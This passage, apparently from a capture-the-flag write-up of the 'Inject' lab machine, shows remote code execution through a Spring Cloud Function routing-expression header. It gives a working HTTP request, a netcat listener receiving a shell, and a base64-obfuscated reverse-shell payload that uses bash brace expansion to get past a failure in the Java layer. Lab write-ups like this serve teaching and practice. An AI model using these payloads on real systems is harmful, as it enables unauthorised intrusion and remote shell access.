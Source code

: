 And then send another request to run it:

```

POST /functionRouter HTTP/1.1
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash /tmp/0xdf.sh")
Host: 10.10.11.204:8080
...[snip]...

```

At `nc`, there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.204 60606
bash: cannot set terminal process group (820): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ 

```

#### Success by Brace Expansion

[Brace expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html) is something I use daily in `bash`. For example, when I need to move `file_20230313-2046.png` to `file_20230313-2046-orig.png`, I’ll do:

```

$ mv file_20230313-2046{,-orig}.png

```

When I submit a payload like this:

```

T(java.lang.Runtime).getRuntime().exec("bash -c {echo,IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK}|{base64,-d}|bash")

```

Bash expands that to:

```

T(java.lang.Runtime).getRuntime().exec("bash -c echo IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK|base64 -d|bash")

```

Whatever was causing it to fail in the Java layer doesn’t fail any more, and now it works!

#### Shell Upgrade
